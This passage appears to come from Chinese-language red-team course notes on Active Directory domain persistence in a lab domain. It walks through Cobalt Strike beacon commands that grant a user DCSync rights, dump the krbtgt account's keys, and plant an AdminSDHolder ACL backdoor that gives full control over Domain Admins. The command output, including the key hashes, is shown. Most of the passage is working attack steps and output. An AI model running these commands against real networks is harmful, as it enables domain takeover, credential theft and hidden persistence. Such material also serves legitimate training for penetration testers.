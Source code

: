 beacon> powershell Add-DomainObjectAcl -TargetIdentity "DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights DCSync
```

如果上面操作成功，在域中的设置应该显示如下

![alt DCSyn](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/dcsync-backdoor.png?width=1920)


现在可以用bfarmer身份执行dcsync
```
beacon> getuid
[*] You are DEV\bfarmer

beacon> dcsync dev.cyberbotic.io DEV\krbtgt
[DC] 'dev.cyberbotic.io' will be the domain
[DC] 'dc-2.dev.cyberbotic.io' will be the DC server
[DC] 'DEV\krbtgt' will be the user account

[...snip...]

* Primary:Kerberos-Newer-Keys *
    Default Salt : DEV.CYBERBOTIC.IOkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
      aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
      des_cbc_md5       (4096) : b9fefed6da865732
```


# AdminSDHolder Backdoor

> AdminSDHolder是一个特殊的AD容器，通常作为某些特权组成员的对象的安全模板。Active Directory将采用AdminSDHolder对象的ACL并定期将其应用于所有受保护的AD账户和组，以防止意外和无意的修改并确保对这些对象的访问是安全的

把用户bfarmer 添加进AdminSDHolder
```
beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights All
```

上面操作成功后应显示

![alt alt](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/adminsdholder.png?width=1920)


一旦生效,对Domain Admins组也有了 full control权限

![alt alt](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/da-full-control.png?width=1920)

```
beacon> getuid
[*] You are DEV\bfarmer
